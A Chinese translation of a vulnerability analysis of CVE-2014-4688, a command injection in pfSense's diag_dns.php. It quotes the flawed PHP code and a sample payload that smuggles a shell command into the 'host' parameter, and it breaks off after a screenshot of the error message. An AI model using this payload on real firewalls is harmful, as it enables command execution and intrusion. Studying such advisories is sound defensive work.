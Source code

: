 # PfSense命令注入漏洞分析

翻译：mssp299

原文地址：[https://www.proteansec.com/linux/pfsense-vulnerabilities-part-2-command-injection/](https://www.proteansec.com/linux/pfsense-vulnerabilities-part-2-command-injection/)

0x00 导言
=====

在本文中，我们将向大家介绍在`PfSense`的`2.1.3`以及更低版本中的`CVE-2014-4688`漏洞；对于更高的版本来说，`pfSense`已经修复了这个漏洞。

0x01 Diag_dns.php脚本中的命令注入漏洞
=====

下面展示的是脚本`diag_dns.php`中存在命令注入漏洞的代码片。我们可以看到，这段代码首先检查`POST`参数`host`是否存在，如果存在的话，就将变量`$GET`的值赋给变量`$POST`。然后，代码继续检查`GET`参数`createalias`的值是否等于`true`，如果是的话，则把POST参数host的值的首尾空白符去掉`：trim()`函数的作用就是去掉字符串首尾处的空白符，但是字符串中间部分的空白符则保持不变。之后，还有一些其他语句，不过它们并不是我们这里关注的重点，我们关心的是如何插入在反引号中运行的命令。

```
/* Cheap hack to support both $_GET and $_POST */
if ($_GET['host'])
$_POST = $_GET;

if($_GET['createalias'] == "true") {
$host = trim($_POST['host']);
if($_GET['override'])
$override = true;
$a_aliases = &$config['aliases']['alias'];
$type = "hostname";
$resolved = gethostbyname($host);
if($resolved) {
$host = trim($_POST['host']);
$dig=`dig "$host" A | grep "$host" | grep -v ";" | awk '{ print 5 }'`;

```

由于我们可以直接操纵变量`$host`的值，因此，我们完全可以在注入代码的反引号中插入我们想要执行的命令。下面，我们输入以下内容，让它作为`POST`变量`host`的输入值：

```
192.168.1.1";ifconfig>/usr/local/www/temp.txt;echo+"

```

下面展示的是含有上述输入字符串的HTTP请求，具体如图所示。

![enter image description here](http://drops.javaweb.org/uploads/images/754aff2b71942a9808f25a651da32fdc6404ad31.jpg)

图1 发送给服务器的恶意请求

当上面所示的请求被执行时，`Web`浏览器会显示如下所示的内容，其中含有一个错误信息，出错原因是没有提供有效的主机名。

![enter image description here](http://drops.javaweb.org/uploads/images/bb4d72312b3b835e2fe65e6d1ce3c4ced7eb8423.jpg)

图2 错误消息：`invalid hostname`
